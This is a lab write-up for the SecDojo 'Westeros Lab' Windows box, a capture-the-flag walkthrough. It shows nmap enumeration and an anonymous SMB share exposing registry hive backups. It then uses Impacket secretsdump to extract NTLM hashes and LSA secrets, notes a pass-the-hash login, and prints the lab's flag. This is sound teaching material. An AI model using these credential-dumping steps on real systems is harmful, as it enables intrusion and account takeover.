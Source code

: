 ```yaml
---
title: "SecDojo - Westeros Lab"
author: [Ayoub Amzouar]
date: "2022-12-29"
keywords: [Windows, Security, CTF, Hacking]
titepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
...
```


# Information

- **Name:** Westeros Lab - Shared Machine
- **Profile:** SecDojo
- **Difficulty:** Easy
- **Description:** Westeros is a network of vulnerable Windows servers. Each box suffers from a severe vulnerability that if properly exploited, will grant you administrator access and get you the root flag located at the Administrator desktop folder.

# Enumeration

## Nmap

We begin our reconnaissance by running an Nmap scan checking services and their versions also checking default scripts and testing for vulnerabilities.


```console
$ nmap -sV -sC -Pn 172.16.4.29
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:18 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00068s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds  Windows Server 2016 Datacenter 14393 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: SHARED
|   NetBIOS_Domain_Name: SHARED
|   NetBIOS_Computer_Name: SHARED
|   DNS_Domain_Name: SHARED
|   DNS_Computer_Name: SHARED
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-28T15:18:31+00:00
| ssl-cert: Subject: commonName=SHARED
| Not valid before: 2022-12-27T14:20:19
|_Not valid after:  2023-06-28T14:20:19
|_ssl-date: 2022-12-28T15:19:11+00:00; 0s from scanner time.
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-28T15:18:36
|_  start_date: 2022-12-28T14:20:19
| smb-os-discovery: 
|   OS: Windows Server 2016 Datacenter 14393 (Windows Server 2016 Datacenter 6.3)
|   Computer name: SHARED
|   NetBIOS computer name: SHARED\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-12-28T15:18:34+00:00
|_clock-skew: mean: 0s, deviation: 1s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.71 seconds
zsh: segmentation fault  nmap -sV -sC -Pn 172.16.4.29
```

From the above output we can see that ports, **135**, **445** and **3389** are the open ports also we found that the running system is **Windows Server 2016 Datacenter 6.3**.

To get more informations about the machine I used a script in nmap that discovers smb shares available.


```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.29                                                                139 â¨¯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-28 15:23 UTC
Nmap scan report for 172.16.4.29
Host is up (0.00030s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.29\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\Backup: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|     Current user access: READ
|   \\172.16.4.29\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.29\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 23.50 seconds
```

There is four shares available, two of them can be accessed anonymously let's try.


![](./Figure%201.png)
**Figure 1:** Inside of backup share

![](./Figure%202.png)
**Figure 2:** Determining file type

Those are Windows registry keys which generally are windows configurations, I've noticed the existence of **sam.save** sam is Security Account Manager which normally stores local secrets and other two files can help us get LSA secrets all we have to do is parsed them together.


![](Figure%203.png)
**Figure 3:** Downloading those files into our PWN machine

```console
$ secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0x0c59245f05ca8e4b2f927c9562fb77dc
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e499e821990727fe730fe85694bc500c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x45522ee9daebd9ea79ae4dbc335effe7f5839c63
dpapi_userkey:0x66c8f460e91dd6291fd4c09b474fe1909b711fa0
[*] NL$KM 
 0000   2E 74 ED 55 62 CB 0C 23  83 3D C6 56 51 CE B2 93   .t.Ub..#.=.VQ...
 0010   63 BC 5F C9 59 8B 25 DB  1F FC F9 A2 26 50 31 60   c._.Y.%.....&P1`
 0020   C4 67 C4 47 3B EA D7 01  86 9B 67 31 70 F9 30 A1   .g.G;.....g1p.0.
 0030   49 99 F2 29 6D 19 85 D4  F2 01 BE C0 65 26 19 20   I..)m.......e&. 
NL$KM:2e74ed5562cb0c23833dc65651ceb29363bc5fc9598b25db1ffcf9a226503160c467c4473bead701869b673170f930a14999f2296d1985d4f201bec065261920
[*] Cleaning up... 
```

Done parsing the keys that's our password hashes extracted, and now let's use Pass-The-Hash attack to get into our machine.

![](./Figure%204.png)
**Figure 4:** *Inside shared machine*

## Root Flag

![](./Figure%205.png)
**Figure 5:** *Administrator Desktop*

**Flag:** **`Shared_Sesco-xba5htto144lypq0dmaj1itmeoj6wb4e`**